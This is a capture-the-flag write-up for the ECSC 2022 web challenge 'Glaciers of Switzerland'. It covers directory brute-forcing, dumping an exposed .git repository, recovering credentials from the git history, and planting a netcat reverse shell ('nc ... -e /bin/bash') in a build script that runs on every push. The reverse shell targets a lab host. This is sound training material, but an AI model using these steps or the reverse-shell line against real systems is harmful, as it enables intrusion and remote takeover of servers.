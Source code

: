 ```yaml
---
title:  "Glaciers of Switzerland"
author: "punshLineLama"
date:   "2022-09-15"
# Optional parameters
tags: ["web", "(open)ECSC 2022"]
coverImagePath: "img/ecsc2022_chall.png"
---
```



![Image of Challenge](img/ecsc2022_chall.png)

## TL;DR
- Brute-force directories.
- Find the .git directory
- Extract the repo with git-dumper (https://github.com/arthaud/git-dumper)
- Find the credientials in the git history of an old branch
- Write to the repo with the extracted creds and get code execution

## Complete Writeup

With gobuster, we found that there is a .git directory on the server.
Then we installed git-dumper with `pip3 install git-dumper`
Then extracted the repo with:
`~/.local/bin/git-dumper https://ea439dee-8c4d-4ead-aa86-40a208094d02.idocker.vuln.land//website-repo/.git ~/Documents/openecsc/repo_dump`

![](img/ecsc2022_pic1.png)

There was nothing too interesting in the files. 
With  gitkraken we did some further exploration and found an old version of the README.md with had credientials in them:
![](img/ecsc2022_creds.png)

As the build.sh gets executed on each push, we modified it to get us a nc reverse shell back:

```bash
#!/bin/bash

cp index.html.tpl index.html
nc 10.13.0.xxx 5555 -e /bin/bash

```
Then we started a listener with `nc -lnvp 5555`

And pushed to the repo:
`git push https://ea439dee-8c4d-4ead-aa86-40a208094d02.idocker.vuln.land/.git-server/website.git/`

We get a reverse shell back and get the flag. (Sorry I did not save the flag.)


## Lessons learned
Its often easier to use a GUI tool to explore all branches and commits of a git repo.
